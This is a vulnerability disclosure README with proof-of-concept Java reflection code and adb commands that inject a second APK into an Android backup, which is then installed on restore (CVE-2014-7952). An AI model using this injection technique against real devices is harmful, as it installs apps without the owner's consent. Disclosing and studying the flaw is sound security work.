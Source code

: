 # ADB-Backup-APK-Injection
Android ADB backup APK Injection POC

What is ADB backup/restore?
---------------------------
The Android Operating System offers a backup/restore mechanism of installed packages through the ADB utility.
By default, full backup of applications including the private files stored in /data is performed, but this behaviour can be customized by implementing a BackupAgent (http://developer.android.com/reference/android/app/backup/BackupAgent.html) class. This way applications can feed the backup process with custom files and data.
The backup file created is a simple compressed tar archive with some Android specific headers. Optional encryption is also possible.

APK injection vulnerability
---------------------------
The backup manager, which invokes the custom BackupAgent's does not filter the data stream returned by the applications. While a BackupAgent is being executed during the backup process, it is able to inject additional applications (APKs) into the backup archive without the user's consent. Upon restoration of the backup archive, the system installs the injected, additional application.
The Backup Manager can be exploited through simple reflection:

```
	  String packageName = "com.searchlab.wifitest"; // getPackageName();
	  
	  Method backupToTar;
	  Method getData;
		try {
			Class<?> fullbackupClass = Class.forName("android.app.backup.FullBackup");

			Class<?> backupDataOutputClass = Class.forName("android.app.backup.BackupDataOutput");
			
			backupToTar = fullbackupClass.getDeclaredMethod("backupToTar", String.class, String.class, String.class, String.class, String.class, backupDataOutputClass);
			backupToTar.setAccessible(true);		
			
			getData = FullBackupDataOutput.class.getDeclaredMethod("getData");
			getData.setAccessible(true);
			Object backupData = getData.invoke(data);
			
			 
			backupToTar.invoke(null, packageName, null, null, getFilesDir().toString(), getFilesDir()+"/_manifest", backupData);
			backupToTar.invoke(null, packageName, "a", null, getFilesDir().toString(),getFilesDir()+"/com.searchlab.wifitest-1.apk", backupData);
		    
			Log.v("MYBACKUP", "backuptotar invoked!");
			
			/*
			FullBackup.backupToTar(getPackageName(), domain, null, rootpath, filePath, output.getData());
			Class<?> hs = Class.forName("java.util.HashSet");
			m = BackupAgent.class.getDeclaredMethod("fullBackupFileTree", String.class, String.class, String.class, hs, FullBackupDataOutput.class);
	      //m.invoke(d);//exception java.lang.IllegalAccessException
	      m.setAccessible(true);//Abracadabra 
	      m.invoke(this, packageName, "", "/data/tmp/evilApk", null, data);//now its ok
	      */
		} catch (Exception e) {
			// TODO Auto-generated catch block
			e.printStackTrace();
		}
```

Proof of Concept
----------------
In this repository you can find an application along with it's source code which can demonstrate the vulnerabilty.
It was tested on Android 4.4.4 and Android 5.1.1.

Step 1: Install ADB_Backup_Injection.apk (com.searchlab.backupagenttest):
![ADB Backup Injection, custom BackupAgent](/relative/path/to/img.jpg?raw=true "ADB Backup Injection, custom BackupAgent")

This application *does not require any permissions*.

Step 2: Use the following command to create a backup of this package
```
adb backup -f backup.ab -apk com.searchlab.backupagenttest
```

Step 3 (optional): If you want to examine the backup archive just created, use the [ABE](https://github.com/nelenkov/android-backup-extractor) tool:
```
java -jar d:\tools\abe\android-backup-extractor-20140630-bin\abe.jar unpack backup.ab backup.tar
```

In the tar file you will find the injected second application (com.searchlab.wifitest).

Step 4: Use the following command to restore the archive:
```
adb restore backup.ab
```

Step 5: Verify that Wifi Test application was indeed installed:
![ADB Backup Injection, injected Application](/relative/path/to/img.jpg?raw=true "ADB Backup Injection, injected Application")

CVE
---
The ID CVE-2014-7952 was assigned to this vulnerability.

Affected Versions
-----------------
As of today, 2015-07-08, all Android versions are affected, including Android L.

Timeline
--------
At first, Google did not acknowledge the issue being security relevant. Later they kept requesting more time for further investigation, but the bug was still not addressed. The most important milestones of the issue are listed in the next lines:

2014-07-14: The vulnerability was disclosed to the Android security team
2014-07-28: Google refused to treat the issue as a potential threat, but requests to hold off publishing it
2014-10-15: Google answered that it did not get fixed in the L release and keeps requesting to hold off publishing it
2015-06-02: Google promised further info in a few days, but it never arrived


